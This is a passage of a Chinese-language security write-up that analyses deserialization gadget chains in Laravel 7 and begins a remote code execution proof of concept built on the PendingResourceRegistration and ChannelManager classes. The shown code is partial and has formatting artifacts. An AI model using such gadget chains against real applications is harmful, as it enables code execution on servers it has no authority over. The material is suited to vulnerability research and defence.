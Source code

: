 ```
    public function __destruct()
    `{`
        $this-&gt;parent-&gt;addCollection($this-&gt;route);
    `}`
```

首先谈一下 ImportConfigurator 类, 其实我一开始最想用的就是这个, 简单而且和 PendingBroadcast 类的 `__destruct()` 长得特别像, 参数均可控, 但是本地开debug调试后提示这个类不能被反序列化就舍弃了, 有用成的师傅可以分享一下心得

其次就是 CollectionConfigurator 类, 也是和上面反馈了一样的情况, 不让反序列化, 所以就只剩下 PendingResourceRegistration 类了, 亲测可用, 然后先跟进函数 register()

```
public function register()
    `{`
        $this-&gt;registered = true;

        return $this-&gt;registrar-&gt;register(
            $this-&gt;name, $this-&gt;controller, $this-&gt;options
        );
    `}`
```

这些参数都可控, 那就行了, 触发`__call()` 函数就行, 剩余步骤就不详细分析了, 直接给出 POP链1 和 POP链2 的翻新

```
&lt;?php

/*
# -*- coding: utf-8 -*-
# @filename: laravel 7 RCE poc3
# @author: Ricky
*/

namespace Illuminate\Routing`{`
    class PendingResourceRegistration`{`
        protected $registrar;
        protected $name;
        protected $controller;
        protected $options;
        public function __construct($registrar, $name, $controller, $options)
        `{`
            $this-&gt;registrar = $registrar;
            $this-&gt;name = $name;
            $this-&gt;controller = $controller;
            $this-&gt;options = $options;
        `}`
    `}`
`}`

namespace Illuminate\Notifications
`{`
    class ChannelManager
    `{`
        protected $container;
        protected $defaultChannel;
        protected $customCreators;

        function __construct($function, $parameter)
        `{`
            $this-&gt;container = $parameter;
            $this-&gt;customCreators = ['x' =&gt; $function];
            $this-&gt;defaultChannel = 'x';
        `}`
    `}`
`}`
```